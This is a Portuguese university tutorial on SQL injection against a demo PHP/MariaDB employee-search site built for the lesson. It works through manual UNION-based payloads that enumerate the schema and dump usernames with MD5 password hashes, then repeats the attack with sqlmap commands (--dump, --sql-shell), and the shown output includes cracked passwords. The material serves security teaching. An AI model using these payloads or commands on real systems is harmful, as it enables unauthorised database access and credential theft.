










# SQL Injection

Ataques [SQL Injection](https://security.berkeley.edu/education-awareness/how-protect-against-sql-injection-attacks) (SQLi) consistem basicamente em utilizar campos digitáveis do sistema para enviar comandos [SQL](https://pt.wikipedia.org/wiki/SQL) maliciosos, para o banco de dados da vítima. Tais comandos normalmente têm o objetivo de realizar consultas, inclusões ou alterações não previstas inicialmente pelo sistema alvo. Desta forma, o atacante pode chegar ao ponto de obter informações sensíveis da vítima ou até mesmo acesso completo ao sistema.

Então, ataques SQL Injection ocorrem em partes do sistema que permitem interação do usuário com o sistema. Por exemplo: Em um sistema Web é bem provável que em algum momento o usuário queira realizar alguma pesquisa a respeito de produtos do sítio Web. Assim, haverá um campo editável/digitável, esperando que o usuário entre com um termo de busca. Em tal campo, o usuário poderia buscar por algo como: ``tênis basquete``. Tão logo o usuário pressione *enter* ou clique no ícone para realizar a busca, o sistema pegará essa entrada do usuário e realizará uma busca em seu banco de dados. Se houver correspondências, o sistema provavelmente vai retornar uma lista com produtos relacionados com "tênis de basquete", "basquete" e/ou "tênis". Isso é basicamente o processo utilizado em qualquer sistema que utilize banco de dados, ou seja, quase todos os sistemas.

## Exemplo 1 - SQLi na mão

Para entender melhor como explorar esse comportamento padrão do sistema e injetar códigos SQL maliciosos, vamos utilizar como exemplo um sistema Web que utiliza: Linux, Apache HTTP, PHP e MariaDB (no estilo [LAMP](https://en.wikipedia.org/wiki/LAMP_(software_bundle))). Tal sistema só tem uma página que permite pesquisar por nomes de empregados cadastrados no banco de dados de uma empresa (ver Figura 1).

> Esse sistema do exemplo foi criado só para esta demostração, não têm muita utilidade na prática.

|  |
|:--:|
| Figura 1 - Tela inicial de busca |

A Figura 1, apresenta a tela do sistema utilizado como exemplo. Nela, há uma listagem com todos os empregados cadastrados no sistema. Note que os dados são listados em linhas contendo: ``id`` - um número que identifica o empregado; ``Name`` - que é o nome do empregado.

Fora a listagem, perceba que há um campo digitável seguido do botão ``Search`` (primeira linha da tela, depois dos campos de navegação do *browser*), são esses dois que permitem que usuários interajam com o sistema e filtrem suas buscas por nomes específicos. A Figura 2, ilustra como buscar neste sistema apenas por pessoas que têm o nome "Elvis". É justamente por este tipo de interação que o atacante está procurando.


|  |
|:--:|
| Figura 2 - Busca por "Elvis" |

Agora, para realizar o ataque de SQL Injection neste sistema, o atacante deve pensar: "como é que esse sistema está realizando está busca?". Neste caso específico, isso está sendo feito basicamente pelo seguinte código em PHP:

```PHP
...
$sql = "SELECT emp_no, first_name, last_name FROM employees WHERE first_name LIKE '%$search_value%'";
$result = $conn->query($sql);

if ($result->num_rows > 0) {
  while($row = $result->fetch_assoc()) {
    echo "id: " . $row["emp_no"]. " - Name: " . $row["first_name"]. " " . $row["last_name"]. "<br>";
  }
} ...
```
No código apresentado anteriormente há duas linhas que são muito importantes para o sistema e para o ataque, que são a linha que contém o **``SELECT``** e a linha do **``echo``**. Sendo que a linha do ``SELECT`` busca informações do banco de dados e a do ``echo`` apresenta o resultado da busca na interface Web.

### Explorando o SQL do código

A linha do **``SELECT``** está realizando dentro do código em PHP, uma consulta SQL, ou seja, é a interação entre duas tecnologias. O ``SELECT`` está requisitando ao banco de dados que retorne o número do empregado (``emp_no``), primeiro nome (``first_name``) e último nome (``last_name``) de todos empregados (``FROM employees``) que tenham o primeiro nome parecido/contendo (``WHERE...LIKE...``) o valor que for passado via PHP, pela linha digitável do sistema, usando a variável (``%$search_value%``).

Então, no exemplo da Figura 2, no qual foi pedido para o sistema retornar todos os usuários que tenham "Elvis" no nome, a variável ``$search_value`` foi substituída por ``Elvis`` e o ``SELECT`` ficou assim:

```console
SELECT emp_no, first_name, last_name FROM employees WHERE first_name LIKE '%Elvis%'
```

**O principal aqui, é perceber que quem estiver utilizando o sistema tem condição de controlar o que vai ser escrito na variável ``$search_value``. É isso que vai permitir o ataque SQL Injection. Sabendo que o PHP está esperando um código SQL qualquer, é possível complementar/injetar mais códigos SQL utilizando tal variável.**

Agora, conhecendo o SQL, por baixo do código, temos que usar da imaginação, para alterar essa expressão SQL e tentar injetar algum código inesperado. Neste exemplo foi apresentado o código PHP/SQL, mas lembrando que em ataques reais, o atacante vai ter que imaginar o que está codificado no sistema para então explorá-lo. Assim, o *hacker* tem que saber muito de SQL, ou pelo menos deve saber pesquisar a respeito do assunto.

> Não é nosso objetivo ensinar SQL ou nenhuma linguagem de programação aqui!

Para verificar se o sistema em questão é vulnerável à SQLi, vamos tentar incrementar o comando ``SELECT``, pedindo para este filtrar pelo primeiro e último nome do empregado. Lembre que esse não é o comportamento padrão fixado no código apresentado anteriormente, então se conseguirmos isso, já estamos realizando SQL Injection.

Assim, vamos pedir para buscar por usuários que iniciam com Elvis e tenham e o segundo nome por Pfau (na listagem da Figura 2, aparece esse sobrenome, então vamos usar). Pensando apenas em termos de SQL, o comando para filtrar pelo primeiro e último nome seria:

```console
SELECT emp_no, first_name, last_name FROM employees WHERE first_name LIKE
'%elvis%' AND last_name LIKE 'Pfau'
```
Bem, temos que pensar o seguinte: na programação PHP em específico temos a linha do SQL anterior implementada até ``SELECT emp_no, first_name, last_name FROM employees WHERE first_name LIKE '%``. Então devemos apenas continuar a partir deste ponto. Desta forma, no campo digitável temos que incluir apenas o que está faltando, ou seja: ``elvis%' AND last_name LIKE 'Pfau``. Ah, também não devemos terminar com o ``'``, pois isso também já está no código em PHP. A Figura 3 apresenta o resultado desse SQL Injection.

| ``elvis%' AND last_name LIKE 'Pfau`` |
|:--:|
|  |
| Figura 3 - Primeiro SQLi |

> O campo digitável não permite apresentar a expressão SQL inteira, na figura. Então tal expressão será fixada em uma linha no topo da imagem. Isso será mantido para algumas figuras semelhantes.

Como é possível notar na Figura 3, o SQL Injection funcionou, já que a busca retornou apenas o usuário ``Elvis Pfau``. Desta forma, **constatamos que o sistema em questão é suscetível à ataques SQL Injection**.

> No comportamento normal do sistema não haveria como retornar apenas este usuário, com nome Elvis e sobrenome Pfau, também não existe um usuário com o primeiro nome Pfau.


### Descobrindo o nome do banco de dados e versão via SQLi

Agora vamos utilizar a vulnerabilidade constatada para tentar descobrir o nome do banco de dados em execução e sua versão. Para isso estenderemos a expressão ``SELECT``, presente no código PHP, utilizando o comando [``UNION``](https://www.w3schools.com/sql/sql_union.asp) do SQL, para injetar outra expressão SQL. Tal SQL ficará assim:

```console
SELECT emp_no, first_name, last_name FROM employees WHERE first_name LIKE
'%elvis%' AND last_name LIKE 'Pfau' UNION SELECT @@version;
```

Ao SQL que já tínhamos anteriormente, foi inserido ``UNION SELECT @@version;``, que faz um SELECT na variável ``version``, do banco de dados. Tal expressão deve mostrar a versão do banco de dados da vítima. Todavia, se executarmos isso na vítima, não será retornado nenhum resultado! Tal como pode ser visto na Figura 4.

| ``UNION SELECT @@version;`` |
|:--:|
|  |
| Figura 4 - SQLi errado |

Bem, isso ocorre pelos motivos apresentados a seguir.


### Tratando a saída e inconsistências do SQLi

O SQL Injection realizado anteriormente não trouxe resultados, basicamente por dois motivos:

* A união feita entre os *SELECTs* possui saídas incompatíveis. Já que um SELECT retorna três colunas (número do empregado, primeiro nome e último nome) e o outro apenas uma (que seria a versão do banco de dados);

* O código em PHP espera receber três informações/colunas por linha que seja retornada pelo SQL, para apresentar na interface Web (ver código PHP anterior). Então, para o sistema não quebrar, é recomendável tentar retornar três valores.

> Na verdade o sistema parou no primeiro erro, mas já vamos imaginar e tratar o segundo possível erro.

Se executarmos o comando SQL em questão no [SGBD](https://pt.wikipedia.org/wiki/Sistema_de_gerenciamento_de_banco_de_dados), o primeiro problema fica mais claro:

```console
> SELECT emp_no, first_name, last_name FROM employees WHERE
    -> first_name LIKE '%elvis%' and last_name LIKE 'Pfau' union select @@version;
    ERROR 1222 (21000): The used SELECT statements have a different number of columns
```

Para resolver ambos problemas, é necessário "enganar" a saída do segundo ``SELECT``, para que ela tenha o mesmo número de campos da primeira e também seja compatível com a quantidade de campos esperados pelo ``echo``. Isso pode ser feito da seguinte forma:

```console
SELECT emp_no, first_name, last_name FROM employees WHERE
  first_name LIKE '%elvis%' and last_name LIKE 'Pfau' union select 1,2,@@version
```

O comando anterior pede para imprimir/mostrar no segundo ``SELECT``, o valor ``1`` na primeira coluna, o valor ``2`` na segunda e a versão do banco de dados na terceira. Desta forma, os dois SELECTs possuem a mesma quantidade de colunas.

Entretanto, se o trecho SQL ``elvis%' and last_name LIKE 'Pfau' union select 1,2,@@version`` for executado na vítima, esse ainda não vai trazer resultados. :-(

### Desconsiderando o final do SQL estático do código original (#)

A solução deste mistério é que o código PHP/SQL original terminava com ``'``, para fechar o texto que seria "buscado" no banco de dados. Todavia, o novo comando não termina assim (com um texto qualquer). Desta forma, é necessário ignorar a aspa estática do código original. Isso pode ser feito simplesmente incluindo um ``#`` no final de nosso novo SQL. O ``#``, representa comentário no SQL. Assim, tudo que vier depois do ``#`` será ignorado pelo SQL, neste caso a aspa será desconsiderada. Então, o código a ser executado na vítima fica assim:


```console
elvis%' and last_name LIKE 'Pfau' union select 1,2,@@version; #
```
A Figura 5 apresenta o resultado da execução do código anterior na vítima.

|  |
|:--:|
| Figura 5 - SQLi obtendo nome do DB e versão |

Conforme pode ser visto na Figura 5, o resultado do SQL Injection apresenta como resultados: o nome do banco de dados e sua versão, neste caso é o [MariaDB](https://mariadb.org/) na versão 10.3.38, e ainda traz de brinde que o sistema é um [Ubuntu](https://ubuntu.com/) 20.04.1. Observe também que o ``select 1,2``, traz apenas os números 1 e 2 na saída de ``id`` e ``Name``.

> Vamos continuar filtrando por Elvis Pfau, para reduzir a saída produzida pelo sistema em questão - a saída seria sempre muito grande (muitos nomes) caso não exista um filtro.

### Obtendo banco de dados e usuário do SGBD via SQLi

Dado o resultado do SQLi anterior, é só ir "brincando" com as expressões SQL e obtendo mais informações a respeito da vítima. Por exemplo, vamos incluir as funções ``database()`` e ``current_user()`` na expressão SQL, para tentar descobrir o nome do banco de dados e o usuário do SGBD que está executando o ``SELECT``. Tal expressão é apresentada no código a seguir e o resultado está na Figura 6.

```console
elvis%' and last_name LIKE 'Pfau' union select database(),current_user(),@@version; #
```

|  |
|:--:|
| Figura 6 - SQLi nome do banco de dados e usuário em execução |

Na saída da Figura 6, o SQLi informa que o usuário que executa o comando SQL no SGBD é o ``admin`` e principalmente que o nome do banco de dados é **``employees``** - a informação a respeito do nome do banco de dados será muito importante para o próximo passo.

> É importante ter em mente que os comandos apresentados neste exemplo podem não funcionar em outros bancos de dados, por isso que o *hacker* tem que entender e adaptar conforme o SGBD da vítima. Cada SGBD pode mudar quanto as variáveis e alguns comandos.

### Obtendo as tabelas do banco de dados via SQLi

Vamos utilizar a vulnerabilidade do sistema para conseguir informações de como está estruturado o banco de dados da vítima. O SQL a seguir vai retornar as tabelas do banco de dados chamado ``employees`` (esse nome foi descoberto no passo anterior). O código a seguir apresenta o SQLi necessário para obter essas informações e a Figura 7 apresenta a saída obtida pelo comando.

```console
elvis%' and last_name LIKE 'Pfau' union select 1,2,table_name from information_schema.tables WHERE table_schema = 'employees' #
```

|  |
|:--:|
| Figura 7 - SQLi tabelas do banco de dados |

A saída obtida pelo SQLi apresenta 12 tabelas deste banco de dados. Os nomes das tabelas normalmente indicam quais tabelas são mais interessantes para o ataque. Por exemplo, há uma tabela chamada ``salaries``, isso provavelmente faz referência a uma tabela que informa os salários dos funcionários. Todavia, em termos de ataque, uma tabela que chama a atenção é a ``users``, que é um nome comum para indicar usuários do sistema. Então, vamos continuar nossa exploração utilizando esta tabela.

> O texto não abordará detalhes a respeito da composição do SQL/SELECT realizado para obter as informações (ex. ``information_schema.tables``), pois este material é para alunos dos últimos períodos do curso de Bacharelado em Ciência da Computação da UTFPR-CM. Desta forma, deduz-se que eles possuem conhecimento para entender o SQL ou no mínimo para pesquisar a respeito de dúvidas. :-p

### Obtendo as colunas de uma tabela via SQLi

Bancos de dados são geralmente formados por tabelas e essas tabelas possuem colunas, que indicam que tipo de informação há dentro dessas tabelas. Assim, é crucial para o ataque identificar quais campos/colunas/informações estão armazenadas nas tabelas, isso levará a um dos pontos fundamentais de ataques SQL Injection, que é o roubo de informações.

Em nosso exemplo, a busca por colunas se dá através do código apresentado a seguir e o resultado deste pode ser visto na Figura 8.

```console
elvis%' and last_name LIKE 'Pfau' union select 1,table_name,column_name from information_schema.columns WHERE table_name = 'users' #
```

|  |
|:--:|
| Figura 8 - SQLi colunas de uma tabela |

Através da Figura 8, é possível identificar dois campos que parecem promissores para a continuação do ataque (além do SQLi). São as colunas ``name`` e ``password``, essas colunas provavelmente devem fazer referência aos nomes dos usuários e suas respectivas senhas dentro do sistema. Então vamos continuar explorando.

### Obtendo as dados de uma tabela via SQLi

Para finalizar o nosso exemplo de exploração de um alvo via SQL Injection, vamos ao ponto principal do ataque, que é obter indevidamente usuário e senha de uma tabela que não está acessível diretamente pelo sistema, ou seja, estamos utilizando o SQLi para obter informações confidenciais.

O trecho de SQL a seguir realiza a busca de informações a respeito de usuário e senha, no banco de dados da vítima. A Figura 9 apresenta o resultado da execução deste SQLi.

```console
%elvis%' and last_name LIKE 'Pfau' union select 1,name,password from users #
```

|  |
|:--:|
| Figura 9 - SQLi dados de uma tabela |

A saída a seguir mostra em texto - não imagem - os dados "vazados" do sistema da vítima (isso pode ser útil para atividades de [quebra de senha](passwordCracking)).
```console
id: 12870 - Name: Elvis Pfau
id: 1 - Name: jose e10adc3949ba59abbe56e057f20f883e
id: 1 - Name: antonio f25a2fc72690b780b2a14e140ef6a9e0
id: 1 - Name: maria eb0a191797624dd3a48fa681d3061212
id: 1 - Name: ana 739419e9dbbe9aa73bd716d4b3b9d86b
id: 1 - Name: luiz 89794b621a313bb59eed0d9f0f4e8205
```

Note que foi necessário todos os passos anteriores de SQLi para chegar aos nomes/campos que deveriam ser utilizados no ``SELECT``, para identificar a tabela de interesse. Então, criar o trecho do SQL que efetivamente realizará o "roubo", as vezes é a parte mais simples do ataque, mesmo que ela pareça ser a mais importante pelo fato de mostrar a informação almejada.

De posse das informações obtidas neste exemplo do SQL Injection, em um ataque, o *hacker* utilizará algum método para tentar quebrar os *hashes* de senhas descobertos. Posteriormente o *hacker* tentará acessar o sistema utilizando tais credenciais. Já um Pentester, deve informar o cliente a respeito da vulnerabilidade e essa deve ser corrigida imediatamente, pois atualmente o vazamento de informações, por exemplo, pode gerar multas altíssimas para a empresa, devido a [LGPD](https://www.gov.br/cidadania/pt-br/acesso-a-informacao/lgpd), além de denegrir a imagem da empresa.

Não é objetivo deste texto explorar toda a teoria e práticas de SQL Injection. Desta forma, para mais informações a respeito do assunto procure os livros e sítios Web indicados na Referências deste texto. Também, pode ser que você não consiga a VM utilizada para os testes realizados aqui, então a sugestão é utilizar o [DVWA](https://github.com/digininja/DVWA), que é uma aplicação Web muito utilizada para testes de SQLi.

É necessário perceber que é muito legal e desafiador aprender à realizar testes de SQL Injection na mão, entretanto para agilizar o processo durante a realização de PenTestes, é altamente recomendável/desejável o uso de ferramentas automatizadas. Assim, a seguir será apresentada a ferramenta SQLmap.

## Automatizando SQLi com SQLmap

Como apresentado anteriormente, a exploração manual de vulnerabilidades por meio de SQL Injection exige extremo conhecimento do atacante/Pentester, já que exitem variações entre tecnologias de SGBD. Além de que, cada sítio Web a ser explorado provavelmente tem suas peculiaridades. Assim, pequenos detalhes podem complicar muito os testes com SQLi.

Desta forma, para testes mais rápidos e consistentes existem ferramentas automatizadas que permitem que os testes de SQL Injection sejam realizadas de forma mais tranquila. Na área de SQLi uma das ferramentas mais utilizadas é o [SQLmap](https://sqlmap.org/).

Segundo os autores, o SQLmap é uma ferramenta Open Source para automação de testes com SQL Injection, para ajudar a identificar e corrigir esse tipo de vulnerabilidade em servidores de bancos e dados. O SQLmap suporta uma grande variedade de tecnologias de bancos de dados, tais como: MySQL, Oracle, PostgreSQL, Microsoft SQL Server, SQLite, Firebird, MariaDB, etc.

## Exemplo 2 - SQLi com SQLmap

Para entender o poder do SQLmap e como esse facilita/agiliza o processo de automação de testes com SQL Injection, vamos aplicá-lo no mesmo cenário que utilizamos no Exemplo 1 (exemplo anterior, no qual realizamos testes SQL de forma manual).

### SQLmap - obtendo nomes dos bancos de dados da vítima

Vamos considerar que o primeiro passo é descobrir os nomes de bancos de dados do servidor da vítima (não fizemos isso no Exemplo 1). Para isso executaremos o comando:

```console
# sqlmap -u "http://192.168.56.108/index.php" --data="search=Elvis" --dbs
```

A opção do SQLmap para tentar identificar quais são os nomes dos bancos de dados do servidor é a **``--dbs``**. Também é necessário passar a URL da vítima, isso é feito com a opção ``-u`` seguida da URL, que neste exemplo foi: ``http://192.168.56.108/index.php``.

**Atenção**, o SQLmap espera que a URL seja terminado com algo como ``?id=1``, ou seja, a URL deveria ser ``http://192.168.56.108/index.php?id=1``, isso significa que o arquivo PHP, está recebendo parâmetros e opções via URL e o SQLmap iria injetar SQL nestes. Todavia, não são todas  aplicações Web que fazem uso destas opções na URL, como por exemplo é o caso do sistema que estamos utilizando. Desta fomra, para resolver esse caso específico, temos que utilizar a opção **``--data``**, que indica como passar informações através do método [HTTP POST](https://pt.wikipedia.org/wiki/POST_(HTTP)).

> Então, se a URL tiver algo similar com ``?id=1`` (``?``variável``=`` valor). Não será necessário a opção ``--data``.

No exemplo em questão, iremos injetar SQL através do campo editável/digitável chamado ``search`` e vamos passar o valor ``Elvis``. Para descobrir esses nomes basta inspecionar o código [HTML](https://pt.wikipedia.org/wiki/HTML) no sítio Web da vítima, tal como apresentado na Figura 10. Neste é exemplo é a linha: ``<input type="text" name="search">``.
 
|  |
|:--:|
| Figura 10 - Ver código fonte do sítio da vítima |

Então, dado o comando completo e executando esse, o resultado será:

```console
# sqlmap -u "http://192.168.56.108/index.php" --data="search=Elvis" --dbs
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.7.2#stable}
|_ -| . [,]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 09:47:28 /2023-04-17/

[09:47:29] [INFO] resuming back-end DBMS 'mysql'
[09:47:29] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: search (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: search=Elvis' AND (SELECT 9931 FROM (SELECT(SLEEP(5)))YBZO) AND 'xeXj'='xeXj&value=Search

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: search=Elvis' UNION ALL SELECT NULL,NULL,CONCAT(0x716a6a7871,0x675842666d74744d576a486d58474b5a565a4c68434c48735372664161774547724f6446674b754d,0x71766b6271)-- -&value=Search
---
[09:47:29] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 19.10 or 20.04 or 20.10 (focal or eoan)
web application technology: Apache 2.4.41
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[09:47:29] [INFO] fetching database names
available databases [4]:
[*] employees
[*] information_schema
[*] mysql
[*] performance_schema

[09:47:29] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/192.168.56.108'

[*] ending @ 09:47:29 /2023-04-17/
```
Dada a saída anterior, é possível observar que a opção ``--dbs`` do SQLmap surtiu efeito na vítima, pois foram retornados os seguintes nomes de bancos de dados no servidor em questão:
* ``employees``;
* ``information_schema``;
* ``mysql``;
* ``performance_schema``.

Além dos nomes dos bancos de dados, o SQLmap retornou que o sistema operacional é um Linux Ubuntu, o servidor Web é um Apache 2.4.41 e o banco de dados é um MariaDB.

### SQLmap - Obtendo as tabelas de um banco de dados

Dado que foi possível identificar os nomes de bancos de dados no servidor da vítima, vamos continuar a exploração, mas agora tentando identificar as tabelas de um banco de dados específico. Para isso vamos explorar o banco de dados chamado ``employees``.

No SQLmap, para identificar o banco de dados, é necessário informar o nome do banco de dados precedido da opção ``-D`` e depois a opção **``--tables``**. Ver o comando e o exemplo de saída a seguir:

```console
# sqlmap -u "http://192.168.56.108/index.php" --data="search=Elvis" -D employees --tables
...
[09:52:59] [INFO] fetching tables for database: 'employees'
Database: employees
[11 tables]
+----------------------+
| users                |
| current_dept_emp     |
| departments          |
| dept_emp             |
| dept_emp_latest_date |
| dept_manager         |
| employees            |
| expected_values      |
| found_values         |
| salaries             |
| tchecksum            |
| titles               |
+----------------------+

[09:52:59] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/192.168.56.108'
```
> Parte da saída do comando SQLmap foi omitida por questões de espaço, o mesmo será feito para as outras saídas.

Através da saída apresentada anteriormente observa-se que o banco de dados ``employees`` é composto de várias tabelas (já comentadas no Exemplo 1). Vamos explorar a tabela ``users``, que remete a ideia de usuários/senhas.

### SQLmap - Obtendo as colunas de uma tabela

Sabendo a tabela que vamos explorar de um banco de dados, agora é necessário passar para o SQLMap além do nome do banco de dados, a tabela a ser explorada (``-T users``) e a opção ``--columns``. Veja o comando e a saída a seguir:

```console
# sqlmap -u "http://192.168.56.108/index.php" --data="search=Elvis" -D employees -T users --columns
...
[09:49:48] [INFO] fetching columns for table 'users' in database 'employees'
Database: employees
Table: users
[2 columns]
+----------+--------------+
| Column   | Type         |
+----------+--------------+
| name     | varchar(255) |
| password | varchar(255) |
+----------+--------------+

[09:49:48] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/192.168.56.108'
```

O SQLmap retornou que a tabela ``users`` possui os campos: ``name`` e ``password``. Vamos continuar a exploração, tentando agora obter essas informações das colunas descobertas.


### Sqlmap - obtendo os dados de uma tabela

A parte mais desejada da exploração SQLi é obter os dados de uma tabela. Neste exemplo vamos tentar obter dados que parecem ser usuário/senha do sistema. Para isso é necessário além das opções utilizadas nos comandos anteriores, passar: os nomes das colunas (``-C name,password``) e a opção  **``--dump``**, para recuperar os dados dessas colunas. Veja o comando e seu resultado na saída a seguir:

```console
# sqlmap -u "http://192.168.56.108/index.php" --data="search=Elvis" -D employees -T users -C name,password --dump
...
[09:53:46] [INFO] fetching entries of column(s) 'name,password' for table 'users' in database 'employees'
[09:53:46] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
[09:53:49] [INFO] writing hashes to a temporary file '/tmp/sqlmapmrngvs1r386570/sqlmaphashes-p_tdu2sh.txt'
do you want to crack them via a dictionary-based attack? [Y/n/q]

[09:53:54] [INFO] using hash method 'md5_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1

[09:54:01] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] y

[09:54:08] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[09:54:08] [INFO] starting 2 processes
[09:54:10] [INFO] cracked password '123456' for hash 'e10adc3949ba59abbe56e057f20f883e'
[09:54:10] [INFO] cracked password '123mudar' for hash '89794b621a313bb59eed0d9f0f4e8205'
[09:54:24] [INFO] cracked password 'master' for hash 'eb0a191797624dd3a48fa681d3061212'
[09:54:26] [INFO] cracked password 'felicidade' for hash '739419e9dbbe9aa73bd716d4b3b9d86b'
[09:54:30] [INFO] cracked password 'iloveyou' for hash 'f25a2fc72690b780b2a14e140ef6a9e0'
[09:54:44] [INFO] using suffix '1'
[09:55:19] [INFO] current status: parge... |^C
[09:55:19] [WARNING] user aborted during dictionary-based attack phase (Ctrl+C was pressed)
Database: employees
Table: users
[5 entries]
+---------+-----------------------------------------------+
| name    | password                                      |
+---------+-----------------------------------------------+
| jose    | e10adc3949ba59abbe56e057f20f883e (123456)     |
| antonio | f25a2fc72690b780b2a14e140ef6a9e0 (iloveyou)   |
| maria   | eb0a191797624dd3a48fa681d3061212 (master)     |
| ana     | 739419e9dbbe9aa73bd716d4b3b9d86b (felicidade) |
| luiz    | 89794b621a313bb59eed0d9f0f4e8205 (123mudar)   |
+---------+-----------------------------------------------+

[09:55:19] [INFO] table 'employees.users' dumped to CSV file '/root/.local/share/sqlmap/output/192.168.56.108/dump/employees/users.csv'
[09:55:19] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/192.168.56.108'

[*] ending @ 09:55:19 /2023-04-17/
```
> Observe na saída anterior que houveram questionamentos do SQLmap para a pessoa que executou o mesmo. Esses questionamentos foram para realização de descobertas de senhas.

Analisando a saída anterior, dá para ver o poder e a praticidade do SQLmap, pois esse além de conseguir apresentar os dados das colunas ``name`` e ``password``, deu também a opção de tentativa de quebra de senha ao identificar que a coluna ``password`` armazenava *hashes* de senhas. Assim, o SQLmap iniciou a quebra dessas senhas e conseguiu identificar os seguintes usuários/senhas:
* ``jose``/``123456``;
* ``antonio``/``iloveyou``;
* ``maria``/``master``;
* ``ana``/``felicidade``;
* ``luiz``/``123mudar``.

Feito isso agora basta o atacante/Pentester utilizar essas credenciais para ver se essas dão acesso ao sistema da vítima.

### SQLmap - Abrindo shell do SDBD

Além das opções apresentadas anteriormente, o SQLmap apresenta muitas outras, como por exemplo abrir um *shell* para o atacante executar SQLs arbitrários na vítima. Isso é feito com a opção **``--sql-shell``**, veja o resultado a seguir:

```console
# sqlmap -u "http://192.168.56.108/index.php" --data="search=Elvis" -D employees -T users --sql-shell
...
[09:56:40] [INFO] calling MySQL shell. To quit type 'x' or 'q' and press ENTER
sql-shell>

sql-shell> select user, host from mysql.user;
[09:59:31] [INFO] fetching SQL SELECT statement query output: 'select user, host from mysql.user'
[09:59:31] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
select user, host from mysql.user [2]:
[*] admin, localhost
[*] root, localhost

sql-shell>
```
Com o *shell* o atacante/Pentester tem uma liberdade maior para testes. No exemplo da saída anterior, foi realizado um SELECT buscando os usuários/*hosts* permitidos no servidor de banco de dados (``select user, host from mysql.user;``).

Existem muitas outras opções no SQLmap, não é intensão deste material cobrir todas as possibilidades Assim, para mais informações acesse: <https://sqlmap.org/>.

## Conclusão

O SQL Injection é um ataque antigo, mas que ainda é muito devastador, pois quando há sucesso neste tipo de ataque, dados são expostos e esses podem até mesmo dar acesso completo ao sistema, ou expor informações sensíveis das empresas ou clientes.

